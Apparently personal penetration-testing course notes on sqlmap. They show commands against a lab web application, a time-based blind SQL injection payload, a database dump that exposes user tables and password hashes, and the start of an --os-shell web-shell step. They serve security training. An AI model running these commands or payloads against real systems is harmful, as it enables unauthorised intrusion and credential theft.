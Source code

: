 
# sqlmap
[`sqlmap`](https://sqlmap.org/) is a command line tool that automates [SQLi](../injection/SQLi.md).
## Basic Usage
```bash
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.4#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

...
[*] starting @ 02:14:54 PM /2022-05-16/

[14:14:54] [INFO] resuming back-end DBMS 'mysql'
[14:14:54] [INFO] testing connection to the target URL
got a 302 redirect to 'http://192.168.50.16:80/login1.php?msg=2'. Do you want to follow? [Y/n]
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=fbf1f5fa5fc...a7266cba36'). Do you want to use those [Y/n]
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: user (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=1' AND (SELECT 1582 FROM (SELECT(SLEEP(5)))dTzB) AND 'hiPB'='hiPB
---
[14:14:57] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP, PHP 7.3.33, Apache 2.4.52
back-end DBMS: MySQL >= 5.0.12
[14:14:57] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.50.16'

[*] ending @ 02:14:57 PM /2022-05-16/
```
- `-u` is the target url
- `-p` is the parameter we want to test, in this case `user` (make sure to include the parameter in the url as well, and set its value to a dummy value -- `1` right now)
The output tells us that the parameter seems to be vulnerable to a *[Time Based SQLi](../../../../OSCP/Web%20Apps/SQLi.md#Time%20Based%20SQLi)* and then gives us more information for fingerprinting the server.
### Dumping the database
> [!Warning]
> `sqlmap` is loud as hell, and should not be used when you are trying to be evasive or sneaky!

We can also use `sqlmap` to dump the vulnerable database by giving it the `--dump` flag. This tells `sqlmap` to *exploit* the time-based SQLi it discovered. Since it's a time-based attack, it will likely take a while to dump all of the info in the database.
```bash
kali@kali:~$ sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump
...

[*] starting @ 02:23:49 PM /2022-05-16/

[14:23:49] [INFO] resuming back-end DBMS 'mysql'
[14:23:49] [INFO] testing connection to the target URL
got a 302 redirect to 'http://192.168.50.16:80/login1.php?msg=2'. Do you want to follow? [Y/n]
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=b7c9c962b85...c6c7205dd1'). Do you want to use those [Y/n]
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: user (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=1' AND (SELECT 1582 FROM (SELECT(SLEEP(5)))dTzB) AND 'hiPB'='hiPB
---
[14:23:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP, Apache 2.4.52, PHP 7.3.33
back-end DBMS: MySQL >= 5.0.12
[14:23:52] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[14:23:52] [INFO] fetching current database
[02:23:52 PM] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n]
[14:25:26] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
[14:25:26] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)

[14:25:47] [INFO] adjusting time delay to 2 seconds due to good response times
offsec
[14:27:01] [INFO] fetching tables for database: 'offsec'
[14:27:01] [INFO] fetching number of tables for database 'offsec'

[02:27:01 PM] [INFO] retrieved: 2
[02:27:11 PM] [INFO] retrieved: customers
[02:29:25 PM] [INFO] retrieved: users
[14:30:38] [INFO] fetching columns for table 'users' in database 'offsec'
[02:30:38 PM] [INFO] retrieved: 4
[02:30:44 PM] [INFO] retrieved: id
[02:31:14 PM] [INFO] retrieved: username
[02:33:02 PM] [INFO] retrieved: password
[02:35:09 PM] [INFO] retrieved: description
[14:37:56] [INFO] fetching entries for table 'users' in database 'offsec'
[14:37:56] [INFO] fetching number of entries for table 'users' in database 'offsec'
[02:37:56 PM] [INFO] retrieved: 4
[02:38:02 PM] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
[14:38:24] [INFO] adjusting time delay to 1 second due to good response times
this is the admin
[02:40:54 PM] [INFO] retrieved: 1
[02:41:02 PM] [INFO] retrieved: 21232f297a57a5a743894a0e4a801fc3
[02:46:34 PM] [INFO] retrieved: admin
[02:47:15 PM] [INFO] retrieved: try harder
[02:48:44 PM] [INFO] retrieved: 2
[02:48:54 PM] [INFO] retrieved: f9664ea1803311b35f
...
```
### Getting a webshell
We can use the `--os-shell` flag to tell `sqlmap` to establish a [web-shell](../web-shell.md):
